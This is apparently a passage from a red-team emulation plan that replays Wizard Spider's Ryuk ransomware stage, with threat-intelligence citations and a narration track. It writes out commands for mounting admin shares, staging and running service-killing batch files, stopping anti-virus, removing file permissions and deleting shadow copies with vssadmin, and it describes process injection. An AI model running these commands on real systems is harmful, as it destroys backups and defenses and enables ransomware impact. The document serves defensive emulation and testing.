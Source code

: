 ### :biohazard: Procedures

Mount share so Ryuk can encrypt lateral drives:

```bash
net use Z: \\10.0.0.8\C$
```

```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]
```

```
copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```
[Source Code](../../Resources/Ryuk/bin/kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]
```

```
copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```
[Source Code](../../Resources/Ryuk/bin/window.bat)

### :microscope: Cited Intelligence

* https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf

<br>

## Step 10 - Ryuk Encryption for Impact

:microphone: `Voice Track:`

In our final step, Wizard Spider uploads and executes Ryuk.

Ryuk is uploaded using the RDP-mounted network share, and executed from CMD.

When Ryuk executes, it will first gain `SeDebugPrivilege`.

Ryuk will then and inject its own executable into a remote process,notepad.exe, via `WriteProcessMemory` and `CreateRemoteThread` WinAPI calls.
